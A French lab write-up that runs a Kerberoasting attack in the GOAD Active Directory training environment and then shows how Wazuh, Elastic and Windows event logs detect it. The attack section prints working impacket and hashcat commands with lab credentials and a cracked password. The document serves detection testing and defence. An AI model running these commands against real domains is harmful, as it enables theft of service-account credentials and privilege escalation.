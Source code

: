 # Démonstration d'une attaque de type Kerberoast sur l'environnement GOAD.

## Introduction :
### Après avoir implémenté nos agents Elastic et Wazuh, on va pouvoir tester l'attaque et donc la détection de nos SIEMs d'attaques bien connues comme le Kerberoasting. Celle-ci consiste à utiliser un utilisateur lambda qui appartient au domaine Kerberos pour demander de récupérer un ticket de service (TGS) à un utilisateur du domaine (avec des droits plus élevés) qui est défini avec un nom de service (SPN) puis de tenter de trouver le mot de passe avec du bruteforce offline. 

### Pour ce qui est de la Matrice Mitre (https://attack.mitre.org/techniques/T1558/003/) :

![Alt text](image.png)

### Une fois le bon mot de passe retrouvé, on peut donc escalader nos privilèges sur l'AD et récupérer plus d'informations. On passera donc sur une tactique d'élévation de privilèges.

## Déroulement de l'attaque :

    * Lister les Service Principal Names (SPNs). Un SPN est de la forme suivante TERMSRV/DC1 (où TERMSRV est le type de service et DC1 est le serveur où le service est actif).
    * Faire des requêtes pour récupérer les tickets Kerberos.
    * Exporter les tickets pour les manipuler
    * Convertir les tickets en un format manipulable par Hashcat.
    * Casser le hash pour récupérer le mot de passe avec Hashcat.

(https://ruuand.github.io/Kerberoasting/)

## Mise en place de l'attaque :

### Pour l'attaque, puisqu'il s'agit pour élever nos privilèges, on va choisir un utilisateur basique présent sur un des AD déployés sur le GOAD.
    => Domaine : north.sevenkingdoms.local
    => IP du Domaine : 10.202.0.118
    => User : brandon.stark
    => Mot de passe : iseedeadpeople

### On remplit notre fichier /etc/hosts pour notre kali :
    nano /etc/hosts :
        > 10.202.0.118   winterfell.north.sevenkingdoms.local north.sevenkingdoms.local winterfell

### On commence par énumérer les utilisateurs vulnérables au Kerberoasting avec notre utilisateur valide :
    cd /opt/impacket/examples && sudo rdate -n north.sevenkingdoms.local && sudo python3 GetUserSPNs.py -request -dc-ip 10.202.0.118 north.sevenkingdoms.local/brandon.stark:iseedeadpeople

![Alt text](image-1.png)

### On remarque que l'utilisateur jon.snow est vulnérable. On va donc demander un ticket de service pour son utilisateur et dans un format de hash compréhensible par Hashcat :
    cd /opt/impacket/examples && sudo rdate -n north.sevenkingdoms.local && sudo python3 GetUserSPNs.py -request -dc-ip 10.202.0.118 north.sevenkingdoms.local/brandon.stark:iseedeadpeople -request-user jon.snow -outputfile kerbe.hash && clear && echo "Voici le hash récupéré : $(cat kerbe.hash)"

![Alt text](image-3.png)


### Puis on lance Hashcat pour bruteforcer le mot de passe :
    hashcat -m 13100 --force -a 0 kerbe.hash /usr/share/wordlists/rockyou.txt --force

![Alt text](image-4.png)

*Je fais le hashcat sur Windows car je n'ai pas intégré mon GPU sur ma VM, donc je peux profiter de ma puissance de calcul GPU uniquement sur mon Os principal*

### On obtiens donc le mot de passe de l'utilisateur privilégié jon.snow qui est : *iknownothing*

## Réactions / Détection :

## Wazuh :

### Au niveau du SIEM Wazuh, dans l'onglet Security Events, on remarque directement que l'agent présent sur le dc02 nous remonte une alerte :
![Alt text](image-5.png)

### Il a bien détecté l'attaque Kerberoast et nous la remonte. On peut savoir quel utilisateur a été touché pour pouvoir changer son mot de passe rapidement et monitorer les actions de l'attaquant :
![Alt text](image-6.png)
*jon.snow est bien le compte visé par l'attaque.*

### Wazuh ne bloque pas l'action suspecte, il détecte juste. On peut modifier son comportement en modifiant son fichier de configuration ossec en rajoutant des actions, conformément à la documentation Wazuh présente ici : https://wazuh.com/blog/blocking-attacks-active-response/.

### Cependant, puisqu'il peut s'agir d'actions totalement légitimes, il n'existe pas de modules permettant de bloquer directement par IP le possible attaquant. Il faut donc sécuriser au niveau de l'AD en évitant d'attribuer un SPN aux utilisateurs et de toujours avoir des mots de passes robustes d'au moins 20 caractères pour l'ensemble des comptes.

## Elastic :

### Au niveau du SIEM Elastic, on peut d'une manière plus claire et rapide visualiser les logs générés par "l'attaque" en utilisant les filtres dans les query :
![Alt text](kerberos-line.png)
*Demande d'authentification TGT -> Demande TGS au service jon.snow*

![Alt text](kerberos-message.png)
### On peut visualiser très rapidement quel compte a effectué la commande puis l'ip source de la demande. En agrandissant les détails du log remonté, on peut donc voir qu'un TGS a été demandé pour le service Name jon.snow.

## Les logs Windows sur DC02 (Observateur d'événements) :

### Au niveau de la prise de logs en local sur la machien DC02, on peut récupérer les logs suivants générés par l'attaque Kerberoast :

![Alt text](image-7.png)

### On peut suivre étapes par étapes l'attaquant dans sa récupération du ticket de jon.snow. On commence tout d'abord par la connexion de l'attaquant :
![Alt text](image-8.png)
*Le compte brandon.stark se connecte (compte compromis ou généré par un attaquant)*

### Le compte malveillant demande ensuite un ticket d'authentification Kerberos (TGT) auprès du service krbtgt pour pouvoir faire sa dernière action :
![Alt text](image-9.png)

### Une fois authentifié auprès de Kerberos, il peut alors demander un ticket de service (TGS) pour l'utilisateur jon.snow (qui est défini comme service).
![Alt text](image-10.png)

### C'est donc le fameux ticket qu'on reçoit avec la commande au niveau de l'attaquant et qui contient le mot de passe de l'utilisateur de manière chiffrée :
![Alt text](image-3.png)

![Alt text](image-4.png)

### Enfin, après avoir demandé le ticket TGS, l'utilisateur malveillant se déconnecte :
![Alt text](image-11.png)

### En tant qu'analyste de SoC, on peut alors déduire très rapidement et sans outils tierces, que le compte brandon.stark depuis l'IP 10.202.0.81 a été compromis dans le but de pouvoir demander un ticket de service à l'utilisateur jon.snow qu'un attaquant va pouvoir ensuite essayer de craquer.

### On peut alors réagir en analysant le poste concerné et en modifiant les mots de passes des deux comptes. On pourra aussi vérifier en fouillant dans les logs que brandon.stark n'a pas été impliqué dans d'autres attaques de ce genre.

### On remarque aussi très rapidement que les messages de logs sont identiques sur Wazuh aussi bien que sur Elastic, on peut donc bien vérifier que ces deux SIEMs se basent sur l'observateur d'événements Windows.
